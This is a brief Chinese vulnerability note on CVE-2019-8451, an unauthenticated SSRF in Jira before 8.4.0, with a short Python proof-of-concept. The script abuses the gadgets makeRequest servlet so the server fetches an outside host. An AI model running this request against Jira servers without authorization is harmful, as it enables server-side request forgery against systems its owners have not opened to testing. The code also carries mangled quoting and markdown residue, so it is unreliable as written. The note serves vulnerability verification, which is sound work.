 ```yaml
---
title: （CVE-2019-8451）Jira未授权SSRF漏洞验证
id: zhfly2991
---
```


# （CVE-2019-8451）Jira未授权SSRF漏洞验证

## 一、漏洞简介

（CVE-2019-8451）Jira未授权SSRF漏洞验证

## 二、影响范围

Jira < 8.4.0

## 三、复现过程

https://github.com/ianxtianxt/CVE-2019-8451

```
#coding:utf-8
import requests

host = ‘[http://xx.xx.xx.xx:8080](http://xx.xx.xx.xx:8080)’

header = {

‘X-Atlassian-Token’: ‘no-check’,

‘Connection’: ‘close’

} `url = host + ‘/plugins/servlet/gadgets/makeRequest?url=’+host+’@www.baidu.com/’

html = requests.get(url = url,headers = header)

print html.text` 
```